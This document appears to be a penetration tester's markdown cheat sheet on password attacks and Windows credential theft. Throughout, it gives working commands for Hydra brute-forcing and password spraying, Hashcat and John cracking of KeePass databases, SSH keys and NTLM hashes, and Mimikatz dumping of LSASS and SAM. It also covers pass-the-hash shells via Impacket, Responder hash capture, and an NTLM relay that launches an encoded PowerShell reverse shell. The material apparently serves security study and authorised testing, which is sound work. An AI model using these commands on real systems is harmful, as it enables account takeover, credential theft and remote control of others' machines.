 # Password attacks

Graphics card cracking: 
- https://openbenchmarking.org/test/pts/hashcat-1.0.0
- https://www.tomshardware.com/news/eight-rtx-4090s-can-break-passwords-in-under-an-hour

Check:
- https://scatteredsecrets.com/

## Hydra

On GitHub: https://github.com/vanhauser-thc/thc-hydra

### Wordlist

```
hydra -l user -P wordlist.txt -s PortVictim ssh://IpVictim
hydra -l user -P wordlist.txt rdp://IpVictim # default port is 3389
```

### Spraying

```
hydra -L userlist.txt -p "hackedpassword" rdp://IpVictim
```
Userlist on Kali: `/usr/share/wordlists/dirb/others/names.txt`

### Http

Check the source code to get the user and password field names:
```
hydra -P wordlist.txt $IpVictim http-post-form "/baseurl_like_index.html_or_php:user_form_field=admin:password_form_field=^PASS^:error message when password is wrong"
hydra -l user -P wordlist.txt http-get $IpVictim
```

## Hashcat

Benchmark: `-b`
Example of rule: https://hashcat.net/wiki/doku.php?id=rule_based_attack
```
: ---> do nothing
$1 ---> add '1' and the end
c $1 $2 $3 ---> capitalize, add '1', then '2', then '3' at the end
$ ---> append a whitespace
^ ---> prepend a whitespace
$1 c $! ---> append '1', then capitalize, then add '!' at the end
$2 c $! ---> append '2', then capitalize, then add '!' at the end
$1 $2 $3 c $! ---> append '1', then '2', then '3', then capitalize, then append '!'
```
Usage:
```
hashcat -r rulefile.rule wordlist.txt --stdout
hashcat -m 0 tocrackfile.txt wordlist.txt -r rulefile.rule --force # MD5 hash (-m 0), ignore GPU warnings (--force)

hastcat wordlist.txt -r rulelist.txt --stdout
hashcat wordlist.txt -j 'd' wordlist.txt --stdout > newwordlist.txt
hashcat -m 0 tocrack.txt -k 'u' newwordlist.txt --force
hashcat -m passman.mode passman.hash rockyou.txt -r rockyou-30000.rule --force
```
Common rules: `/usr/share/hashcat/rules/` (for rockyou: `rockyou-30000.rule`)

## JohnTheRipper

### Keepass cracking

Find the database on Windows: `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue` \
Then upload it on Kali: https://github.com/ThomasBucaioni/pentools/blob/main/filetransfer/readme.md#powershell \
And crack it with JohnTheRipper:
```
keepass2john Database.kdbx > keepass_hashfile.txt
hashcat --help | grep -i keepass # mode number for KeePass: 13400
hashcat -m keepass_mode_number keepass_hashfile.txt /u/s/w/rockyou.txt -r /u/s/hashcat/rules/rockyou-30000.rule --force
```

### Ssh passphrase cracking

```
ssh2john id_rsa > ssh.hash
hashcat -h | grep -i "ssh"
hashcat -m ssh.hashcat.mode ssh.hash ssh.passwords -r ssh.rule --force
cp ssh.rule /etc/john/otherssh.rule
vim /etc/john/john.config
john --wordlist=ssh.passwords --rules=sshJohnRules ssh.hash
```

---

## Mimikatz

Password modules:
- extraction from [LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service): `sekurlsa::logonpasswords`
- dump: `lsadump::sam` (lighter)

Access right needed:
- extraction: __SeDebugPrivilege__
- privilege escalation ("impersonation"): __SeImpersonatePrivilege__ (e.g. local administrators)

Commands:
```
mimikatz # privilege::debug # with SeDebugPrivilege access rights
mimikatz # token::elevate # with SeImpersonatePrivilege access rights
mimikatz # lsadump::sam # hash dump
```

## NTLM hash cracking

On Windows:
```
PS> Get-LocalUser
PS> c:\path\to\mimikatz.exe
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # lsadump::sam
```
Take the hashes back to Kali:
```
hashcat -h | grep -i ntlm # get the NTLM mode code: 1000
hashcat -m ntlm_mode_code user_hash.txt /u/s/w/rockyou.txt -r /u/s/h/r/best64.rule --force
```

## Pass NTLM

Tools to pass-the-hash:
- SMB enumeration and attack: 
    - `smbclient`
    - CrackMapExec: https://github.com/byt3bl33d3r/CrackMapExec
- get an _interactive shell_ with Impacket: https://github.com/fortra/impacket
    - [psexec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py)
    - [wmiexec.py](https://github.com/fortra/impacket/blob/master/examples/wmiexec.py)

Steal the Administrator's hash or Workstation_1 and connect to a Samba share on Workstation_2 (if same password...):
```
kali$ smbclient \\\\IpVictim_Workstation_2\\someshare -U Administrator --pw-nt-hash adminhash # pass the local "Administrator" account hash on WS_1
    smb: \> get somepassfile.txt # in the Samba share, get files
```
Get an interactive shell, if same Administrator hash/password on both Workstation_1 and Workstation_2:
```
kali$ impacket-psexec -hashes 00000000000000000000000000000000:adminhash Administrator@IpVictim_Workstation_2 # nt authority\system
kali$ impacket-wmiexec -hashes 00000000000000000000000000000000:adminhash Administrator@IpVictim_Workstation_2 # host\administrator
```

## Net-NTLMv2

When taking control of a low privilege user (with/without password), Mimikatz can't extract hashes.
The [Responder](https://github.com/lgandx/Responder) can catch the hash from a connection request from this user to crack it (if password unknown).

On Kali, run the responder:
```
sudo responder -I ethX
```
On Windows, with the compromised user (unknown password), send a connection request to the responder to get the hash:
```
smb \\IpAtt\fakeshare
```
then crack the password with `hashcat`:
```
hashcat --help | grep -i ntlm
hashcat -m ntlm_v2_mode_code lowprivuser_hash.txt /u/s/w/rockyou.txt --force
```
Once we know the password, we can connect to other stations with this user. For example, until we find one where he/she is a local administrator an run Mimikatz.

## Relay Net-NTLMv2

If the Net-NTLMv2 password is too complex and can't be cracked, its hash can still be exploited to connect to other stations:
```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t IpVictim_Workstation_2 -c "powershell -enc base64_reverse_shell_long_string"
```
From Workstation_1, the connection to Kali is relayed to Workstation_2, which accepts the Net-NTLMv2 hash for connection. \
If the low privilege user is a local administrator on Workstation_2, the SAM hashes can be dumped or passed with Mimikatz. \
Relaying the Net-NTLMv2 hash on Workstation_2 needs "User Access Control remote restrictions" to be disabled for low privilege users. If UAC remote restrictions is enabled, the Net-NTLMv2 relay attack still works with the local _Administrator_ account


